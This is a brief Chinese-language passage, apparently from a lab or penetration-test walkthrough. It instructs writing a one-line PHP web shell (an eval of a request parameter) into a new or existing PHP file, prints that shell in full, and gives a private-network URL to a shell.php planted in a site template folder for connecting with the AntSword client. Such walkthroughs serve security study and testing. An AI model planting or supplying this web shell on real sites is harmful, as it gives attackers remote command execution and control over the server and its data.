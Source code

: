 新建文件写入一句话木马，或者直接修改原来的php文件。

```
<?php @eval($_REQUEST['cmd']);?>
```

![img](assets/1685434369292-f2f0244b-c857-48ae-8b4f-b99c5f645877-170339517269441.png)

![img](assets/1685434650813-7dd6ce2b-cd45-4ead-a340-134ce168d49a-170339517269443.png)

蚁剑连接

```
http://192.168.1.105/templates/beez3/shell.php
```
